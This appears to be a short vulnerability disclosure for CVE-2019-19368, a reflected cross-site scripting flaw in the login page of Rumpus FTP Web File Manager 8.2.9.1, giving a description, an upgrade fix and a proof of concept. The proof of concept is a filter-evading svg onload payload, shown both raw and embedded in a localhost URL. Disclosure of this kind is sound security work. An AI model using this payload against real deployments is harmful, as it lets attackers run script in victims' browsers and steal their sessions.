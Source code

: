 # CVE-2019-19368

#Title: Cross Site Scripting - Reflected
#Vendor: MAXUM Development (https://maxum.com)
#Affected Product: Rumpus FTP Web File Manager
#Affected Version: 8.2.9.1

Description:
A Reflected Cross Site Scripting was discovered in the main authentication page of Rumpus FTP Web File Manager. An attacker can exploit it by sending a crafted link to end users and can execute arbitrary JavaScripts

PoC: 

Payload: ?!'><sVg/OnLoAD=alert`1`//

URL: http://localhost/Login?!%27%3E%3CsVg/OnLoAD=alert`1`//

Solution:
Upgrade to the latest version.

